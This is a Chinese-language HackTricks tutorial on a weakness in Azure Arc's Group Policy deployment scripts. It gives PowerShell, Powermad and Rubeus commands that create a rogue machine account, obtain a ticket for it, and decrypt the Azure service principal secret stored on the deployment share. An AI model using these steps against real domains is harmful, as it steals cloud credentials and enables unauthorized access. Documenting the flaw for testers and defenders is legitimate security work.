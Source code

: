 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### 识别问题

Azure Arc 允许通过组策略对象方法将新的内部服务器（加入域的服务器）集成到 Azure Arc 中。为此，微软提供了一个部署工具包，必要用于启动入驻程序。在 ArcEnableServerGroupPolicy.zip 文件中，可以找到以下脚本：DeployGPO.ps1、EnableAzureArc.ps1 和 AzureArcDeployment.psm1。

执行时，DeployGPO.ps1 脚本执行以下操作：

1. 在本地域中创建 Azure Arc 服务器入驻 GPO。
2. 将 EnableAzureArc.ps1 入驻脚本复制到为入驻过程创建的指定网络共享中，该共享还包含 Windows 安装包。

运行此脚本时，系统管理员需要提供两个主要参数：**ServicePrincipalId** 和 **ServicePrincipalClientSecret**。此外，还需要其他参数，如域、托管共享的服务器的 FQDN 和共享名称。还必须向脚本提供租户 ID、资源组和其他必要信息等详细信息。

在指定共享的 AzureArcDeploy 目录中使用 DPAPI-NG 加密生成一个加密的秘密。加密的秘密存储在名为 encryptedServicePrincipalSecret 的文件中。可以在 DeployGPO.ps1 脚本中找到证据，其中通过调用 ProtectBase64 以 $descriptor 和 $ServicePrincipalSecret 作为输入来执行加密。描述符由域计算机和域控制器组 SID 组成，确保 ServicePrincipalSecret 只能由域控制器和域计算机安全组解密，如脚本注释中所述。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

我们有以下条件：

1. 我们已经成功渗透了内部网络。
2. 我们有能力在Active Directory中创建或控制计算机账户。
3. 我们发现了一个包含AzureArcDeploy目录的网络共享。

在AD环境中获取计算机账户有几种方法。最常见的方法之一是利用计算机账户配额。另一种方法涉及通过脆弱的ACL或各种其他错误配置来破坏计算机账户。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一旦获得机器账户，就可以使用该账户进行身份验证。我们可以使用带有 netonly 标志的 runas.exe 命令，或者使用 Rubeus.exe 进行 pass-the-ticket。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
通过将计算机帐户的 TGT 存储在内存中，我们可以使用以下脚本解密服务主体密钥。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
另外，我们可以使用 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)。

此时，我们可以从存储在与 encryptedServicePrincipalSecret 文件相同的网络共享上的 ArcInfo.json 文件中收集连接到 Azure 所需的其余信息。该文件包含以下详细信息：TenantId、servicePrincipalClientId、ResourceGroup 等。凭借这些信息，我们可以使用 Azure CLI 以被攻陷的服务主体身份进行身份验证。

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
